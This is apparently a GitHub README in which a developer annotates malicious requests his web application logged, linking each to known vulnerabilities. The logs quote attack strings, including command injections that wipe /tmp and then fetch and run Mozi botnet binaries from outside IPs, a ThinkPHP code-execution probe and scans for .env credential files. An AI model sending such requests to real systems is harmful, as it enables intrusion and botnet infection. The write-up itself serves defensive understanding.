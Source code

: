# Inspecting Malicious Requests

I recently stood up a crude web application and my logs were capturing various requests my public IP was attracting.  I had seen some such requests before but finally decided it warranted a [blog post](https://matthewkindzerske.com/2021/06/28/10-malicious-requests-against-my-web-application/), and you can read more there.

Otherwise, I'm posting this in a repository as a point of collaboration if any of my readers want to correct, inform, or expand.

## Log Lines and Narration

> `2021-04-25T10:19:17: GET /mysql/index.php?lang=en 404 0.940 ms - 1103`

PHP is a mainstay in the web development community, and there are many sites describing how it can integrate with mySQL.  'Index' here with the `php` extension implies some code process and not simply fetching a static resource (such as an html file).  Since this is under the `mysql` resource, it appears to be a big sniff to see if a console to the mysql db has been left open.

> `2021-04-25T10:21:27: GET /shell?cd+/tmp;rm+-rf+*;wget+http://172.36.40.208:44947/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws 404 0.964 ms - 1103`

Immediately one can recognize the `shell` resource, that this is a flavor of a [bashdoor](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/) attack or attempting to insert and invoke arbitrary code at the command line level.  It first tries to clear out everything in the 'tmp' direcotry (`cd /tmp; rm -rf *`) before fetching (`wget`) a remotely hosted file ('Mozi.a`, part of the [Mirai botnet](https://isc.sans.edu/forums/diary/Honeypot+Scanning+and+Targeting+Devices+Services/25928/)) and then tries to invoke.  

> `2021-04-25T11:17:53: GET http://169.254.169.254/latest/meta-data/ 404 1.033 ms - 1103`

Not an attack, rather something particular to AWS EC2 [instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html).  I believe it's the AWS SDK (within my NodeJS application) locally looking for the metadata containing the AWS credentials (since my web app was integrated with DynamoDB).  Noteworthy is the IP `169.254.169.254` is special to every EC2 instance.

> `2021-04-25T11:49:04: POST /HNAP1/ 404 0.837 ms - 1103`

Home Network Administration Protocl ([HNAP](https://routersecurity.org/hnap.php)) is a Cisco proprietary protocl for managing network devices, going back to 2007.  There was a [worm back in 2014](https://isc.sans.edu/diary/Linksys+Worm+%22TheMoon%22+Summary%3A+What+we+know+so+far/17633), which used the HNAP1 protocol to identify specific Linksys routers (firmware etc.), and then send a second request to invoke an exploit at the CGI/script level.

> `2021-04-25T14:57:06: GET /.env 404 0.919 ms - 1103`

The `.env` is not specific to one framework or language, but actually closert to industry convention.  I think this request is simply hoping that the server is simply hosting a directory and that an `.env` might be exposed possibly revealing things like API or credential keys/tokens.

> `2021-04-25T17:00:00: POST http://likeapro.best/`

I tried the URl, and it was a 'Not Found', so who knows.  Maybe someone is hoping to get more traffic to a site laiden with ads.

> `2021-04-25T18:04:09: GET /config/getuser?index=0 404 0.940 ms - 1103`

Specific D-Link wi-fi camears had a vulnerability where the remote administrator vould be directly queried without authentication!  Hoorah for the National Vulnerability Database (NIST), the page for [this vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2020-25078#vulnCurrentDescriptionTitle) in particular was fun to read through and click the links deeper into the vulnerability and who/how it was uncovered.

> `2021-04-25T20:12:45: POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php 404 1.083 ms - 1103`

This is a [vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9841) for specific version of [PHPUnit](https://phpunit.de), where arbitrary PHP code could be executed!  Here's a very [detailed story](https://thephp.cc/articles/phpunit-a-security-risk) (by a PHP expert), on how this impacted a retail website.  The first link is to [cve.mitre.org](cve.mitre.org), a vulnerability catalog sponsored by USA's DHS and CISA, and the actual site is maintained by the MITRE Corp. 


> `2021-04-25T20:12:45: POST /api/jsonws/invoke 404 0.656 ms - 1103`

[Liferay](https://www.liferay.com) is a digital portal/platform product, which had a JSON (deserialization) and remove code execution [vulnerability](https://codewhitesec.blogspot.com/2020/03/liferay-portal-json-vulns.html) ([CVE-2020-7961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7961)) in March of 2020 and documented by [Code White](https://codewhitesec.blogspot.com).  Bonus, someone created a [scanner](https://github.com/random-robbie/liferay-pwn) (github) for this vulnerability.


> `2021-04-25T20:12:45: GET /solr/admin/info/system?wt=json 404 0.989 ms - 1103`

Ranked as the [#7 Web Service Exploit of 2020](https://blog.radware.com/security/2020/12/the-top-web-service-exploits-in-2020/), even though Apache [published an issue](https://issues.apache.org/jira/browse/SOLR-4882) back in 2013!  The above request is a scan looking for specific versions of Apache Solr (search platform), where a particular parameter is exposed and can lead to arbitrary file reading.  Apparently this is combined with some other vulnerabilities to eventually get to remote code execution, detailed in [CVE-2013-6397](https://nvd.nist.gov/vuln/detail/CVE-2013-6397).

## No Narration (yet)

```
2021-04-25T20:12:45: GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 404 0.918 ms - 1103
2021-04-25T20:12:45: GET /wp-content/plugins/wp-file-manager/readme.txt 404 0.866 ms - 1103
2021-04-25T20:12:46: POST /Autodiscover/Autodiscover.xml 404 1.512 ms - 1103
2021-04-25T20:12:46: GET /console/ 404 0.771 ms - 1103
2021-04-25T20:12:46: GET /_ignition/execute-solution 404 0.936 ms - 1103
2021-04-25T22:00:03: GET /.env 404 4.342 ms - 1103
2021-04-25T22:00:04: POST / 404 0.994 ms - 1103
2021-04-26T06:08:45: POST /GponForm/diag_Form?images/ 404 0.736 ms - 1103
2021-04-26T10:42:36: GET /laravel/.env 404 0.658 ms - 1103
2021-04-26T10:42:36: GET /app/.env 404 0.619 ms - 1103
2021-04-26T10:42:36: GET /application/configs/application.ini 404 0.712 ms - 1103
2021-04-26T10:42:36: GET /application/application.ini 404 0.656 ms - 1103
2021-04-26T10:42:36: GET /vendor/laravel/.env 404 0.641 ms - 1103
2021-04-26T10:42:36: GET /wp-content/uploads/wc-logs/ 404 0.677 ms - 1103
2021-04-26T11:38:52: POST /Autodiscover/Autodiscover.xml 404 0.836 ms - 1103
2021-04-26T11:38:52: GET /console/ 404 0.711 ms - 1103
2021-04-26T11:38:53: GET /_ignition/execute-solution 404 1.475 ms - 1103
2021-04-26T16:41:52: GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://58.248.142.207:49791/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 404 0.969 ms - 1103
```
